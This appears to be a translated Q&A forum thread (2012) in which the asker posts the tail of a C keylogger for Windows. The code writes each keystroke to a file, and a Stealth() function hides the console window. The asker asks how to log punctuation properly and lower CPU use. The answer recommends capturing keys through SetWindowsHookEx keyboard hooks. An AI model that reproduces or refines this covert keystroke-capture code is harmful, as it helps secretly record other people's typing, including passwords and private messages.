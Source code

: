 ```
        else if (key_stroke == VK_CONTROL)
    fprintf(OUTPUT_FILE, "%s", "[CONTROL]");
            else if (key_stroke == VK_ESCAPE)
    fprintf(OUTPUT_FILE, "%s", "[ESCAPE]");
            else if (key_stroke == VK_END)
    fprintf(OUTPUT_FILE, "%s", "[END]");
                else if (key_stroke == VK_HOME)
    fprintf(OUTPUT_FILE, "%s", "[HOME]");
                else if (key_stroke == VK_LEFT)
    fprintf(OUTPUT_FILE, "%s", "[LEFT]");
                    else if (key_stroke == VK_UP)
    fprintf(OUTPUT_FILE, "%s", "[UP]");
                    else if (key_stroke == VK_RIGHT)
    fprintf(OUTPUT_FILE, "%s", "[RIGHT]");
                        else if (key_stroke == VK_DOWN)
    fprintf(OUTPUT_FILE, "%s", "[DOWN]");
                        else if (key_stroke == 190 || key_stroke == 110)
    fprintf(OUTPUT_FILE, "%s", ".");
                        else
    fprintf(OUTPUT_FILE, "%s", &key_stroke);
fclose (OUTPUT_FILE);
return 0;
}
void Stealth()
{
HWND Stealth;
AllocConsole();
Stealth = FindWindowA("ConsoleWindowClass", NULL);
ShowWindow(Stealth,0);
} 
```

我想修复它以正确存储“。”之类的东西。“，”或更多，但我不确定，因为我不熟悉击键。此外，我想添加一些可以减少 CPU 消耗的东西（目前在我的 i5 上为 25%），我可能应该使用 Sleep(value)，尽管我不确定要使用哪个值。

* * *

## 回答 #1

> 赞同：7
> 
> 时间：2012-10-18T12:02:29.603

快速查看[此处](https://stackoverflow.com/questions/4167972/how-to-record-keystrokes-on-windows-c)和[此处](https://stackoverflow.com/questions/6465526/capture-any-kind-of-keystrokes-aka-keylogger-preferably-c-sharp-net-but-any?rq=1)的答案，了解有关哪些 Windows API 函数适合您的工作的更多信息。

* * *

基本思想是使用 SetWindowsHookEx 在键盘上设置一个所谓的“Hook”功能（无论是键盘还是 Keyboard_LL - 你可能会想要第一个）。在卸载键盘记录器时，您需要将其解开。设置挂钩后，Windows 将在每个键盘事件后调用挂钩函数。您对其进行处理（将其记录在某处），然后使用 CAllNextHook 调用下一个 Hook 以继续在 Windows 中处理该事件。你需要在那里进行一些尝试和调试。

